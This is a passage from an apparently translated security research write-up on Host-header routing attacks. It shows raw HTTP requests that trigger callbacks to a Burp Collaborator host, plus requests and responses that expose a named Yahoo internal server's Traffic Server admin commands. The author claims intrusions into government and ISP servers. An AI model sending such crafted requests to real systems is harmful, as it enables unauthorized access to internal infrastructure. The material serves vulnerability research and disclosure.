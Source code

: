 触发一次回调最简单的方法就是发送一个错误的HTTP Host头：



```
GET / HTTP/1.1
Host: uniqid.burpcollaborator.net
Connection: close
```

虽然这项技术大家很多年前就已经知道了，但是这种技术真正的能力却被人们大大低估了-我用这项技术成功入侵了二十七台美国国防部、我的互联网服务提供商、以及某哥伦比亚ISP的服务器。为了让大家更清楚地了解这种漏洞的严重程度，我们先看看下面这台雅虎的内部服务器（存在漏洞，域名为[http://ats-vm.lorax.bf1.yahoo.com/](http://ats-vm.lorax.bf1.yahoo.com/)）。

乍看之下，我们貌似看不出服务器运行了哪些软件：



```
GET / HTTP/1.1
Host: XX.X.XXX.XX:8082
HTTP/1.1 200 Connection Established
Date: Tue, 07 Feb 2017 16:32:50 GMT
Transfer-Encoding: chunked
Connection: close
Ok
/ HTTP/1.1 is unavailable
Ok
Unknown Command
Ok
Unknown Command
Ok
Unknown Command
Ok
```

但是在不到一分钟之后，我不仅弄清楚了服务器运行了哪些软件，而且我还知道怎么去跟它进行通信，这一切多亏了‘**HELP**’命令：



```
HELP / HTTP/1.1
Host: XX.X.XXX.XX:8082
HTTP/1.1 200 Connection Established
Date: Tue, 07 Feb 2017 16:33:59 GMT
Transfer-Encoding: chunked
Connection: keep-alive
Ok
  Traffic Server Overseer Port
  commands:
    get &lt;variable-list&gt;
    set &lt;variable-name&gt; = "&lt;value&gt;"
    help
    exit
  example:
    Ok
    get proxy.node.cache.contents.bytes_free
    proxy.node.cache.contents.bytes_free = "56616048"
    Ok
  Variable lists are conf/yts/stats records, separated by commas
Ok
Unknown Command
Ok
Unknown Command
Ok
Unknown Command
Ok
```
